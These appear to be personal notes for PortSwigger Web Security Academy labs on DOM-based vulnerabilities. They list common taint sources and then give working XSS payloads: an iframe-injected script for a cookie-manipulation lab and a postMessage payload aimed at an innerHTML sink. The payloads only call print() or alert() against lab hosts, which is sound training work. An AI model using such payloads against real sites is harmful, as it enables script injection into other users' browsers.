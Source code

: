 ## Common sources

The following are typical sources that can be used to exploit a variety of taint-flow vulnerabilities:
'''
document.URL
document.documentURI
document.URLUnencoded
document.baseURI
location
document.cookie
document.referrer
window.name
history.pushState
history.replaceState
localStorage
sessionStorage
IndexedDB (mozIndexedDB, webkitIndexedDB, msIndexedDB)
Database
'''

## LAB 1
- <iframe src="https://YOUR-LAB-ID.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">
- https://portswigger.net/web-security/dom-based/cookie-manipulation/lab-dom-cookie-manipulation

## Lab 2
- I saw the following in html code
```
                     <div id='ads'>
                    </div>
                    <script>
                        window.addEventListener('message', function(e) {
                            document.getElementById('ads').innerHTML = e.data;
                        })
                    </script>
```
- After googling I found that
```
window.postMessage('<img src=1 href=1 onerror="javascript:alert(1)"></img>', 'https://0ac90071041154dd804285ae00110042.web-security-academy.net/');
```
 - send a message, and the event listener would see and append it.
- The following iframe sent message to parent url.
```
<iframe src="https://0ac90071041154dd804285ae00110042.web-security-academy.net/" width="100%" height="100%"  onload="this.contentWindow.postMessage('<img src=1 href=1 onerror=print()></img>', '*')">

```
